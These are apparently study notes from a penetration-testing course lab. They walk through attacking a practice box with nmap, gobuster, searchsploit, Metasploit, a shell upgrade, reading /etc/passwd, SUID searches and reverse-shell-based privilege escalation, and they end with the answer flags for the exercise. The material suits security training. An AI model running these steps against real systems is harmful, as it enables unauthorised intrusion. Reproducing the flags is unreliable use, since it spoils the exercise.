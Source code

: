 ### **Knowledge Check: Attacking Your First Box**
- This exercise will test your understanding and skills by applying the techniques learned in this module. 
- Below is a high-level workflow to guide you.
- Tackle the box methodically, take detailed notes, and enjoy the challenge!



### **Step 1: Enumeration/Scanning**
1. **Perform Nmap Scans:**
    - Start with a quick scan to identify open ports:
        ```bash
        nmap -sV --open -oA initial_scan <TARGET_IP>
        ```
    - Follow with a full TCP port scan:
        ```bash
        nmap -p- --open -oA full_scan <TARGET_IP>
        ```
2. **Analyze the Results:**
    - Note services running on open ports (e.g., HTTP, SSH, FTP).
    - Use service-specific scripts with Nmap:  
        ```bash
        nmap -sC -p <PORTS> <TARGET_IP>
        ```        



### **Step 2: Web Footprinting (If Web Ports Found)**
1. **Identify Web Technologies:**
    - Use tools like WhatWeb or Wappalyzer:
        ```bash
        whatweb http://<TARGET_IP>
        ```
2. **Search for Hidden Directories/Files:**
    - Use Gobuster or Dirb:
        ```bash
        gobuster dir -u http://<TARGET_IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt
        ```
3. **Investigate the Application:**
    - Look for CMS (e.g., WordPress, Joomla) or web frameworks.
    - Review source code for comments or hidden clues.
    - Check for login pages or admin panels.
4. **Search for Exploits:**
    - Use Searchsploit or online resources:        
        ```bash
        searchsploit <APPLICATION_NAME> <VERSION>
        ```
        


### **Step 3: Gaining a Foothold**
1. **Manual Exploitation:**
    - Craft or modify an exploit based on your findings.
    - Test payloads on the target (e.g., uploading a reverse shell).
2. **Metasploit Exploitation (If Applicable):**
    
    - Use Metasploit to search for exploits:
        
        ```bash
        msfconsole
        search <APPLICATION_NAME>
        use <EXPLOIT_MODULE>
        set RHOSTS <TARGET_IP>
        set LHOST <YOUR_IP>
        exploit
        ```
        

---

### **Step 4: Post-Exploitation**
1. **Upgrade Shell:**
    - If you obtain a basic shell, upgrade it to a pseudo-TTY:
        ```bash
        python3 -c 'import pty; pty.spawn("/bin/bash")'
        ```
2. **Enumerate the System:**
    - Perform manual checks for sensitive data:
        ```bash
        cat /etc/passwd
        find / -name "*.conf" 2>/dev/null
        ```
    - Use automated tools like LinPEAS or LinEnum:    
        ```bash
        ./linpeas.sh
        ```        



### **Step 5: Privilege Escalation**
1. **Identify Escalation Vectors:**
    - Check for misconfigured **sudo** permissions:
        ```bash
        sudo -l
        ```
    - Look for SUID/SGID binaries:
        ```bash
        find / -perm -4000 2>/dev/null
        ```
2. **Exploit the Vulnerability:**
    - Use GTFOBins to identify ways to exploit misconfigurations.
    - Append reverse shell commands to writable files if they run with elevated privileges.
3. **Automated Assistance:**    
    - Analyze LinPEAS/LinEnum outputs for potential privilege escalation paths.



### **Step 6: Root the Box**
- After escalating privileges, access the root shell.
- Capture the `root.txt` flag.



### **Step 7: Reflect and Document**
1. **Repeat the Attack:**
    - Try alternate foothold or escalation methods to broaden your understanding.
    - Experiment with different tools to achieve the same result.
2. **Take Notes:**
    - Document every step you performed, including commands, outputs, and observations.
3. **Review Key Learnings:**    
    - Identify areas where you got stuck and research further to strengthen your skills.



### **Challenge: Push Yourself**
- Use **both manual and Metasploit methods** to gain a foothold.
- Discover **both privilege escalation paths**.
- Share your findings with a mentor, colleague, or in a forum to validate your methodology.



### Questions
- Spawn the target, gain a foothold and submit the contents of the user.txt flag.
	- 7002d65b149b0a4d19132a66feed21d8
- After obtaining a foothold on the target, escalate privileges to root and submit the contents of the root.txt flag.
	- f1fba6e9f71efb2630e6e34da6387842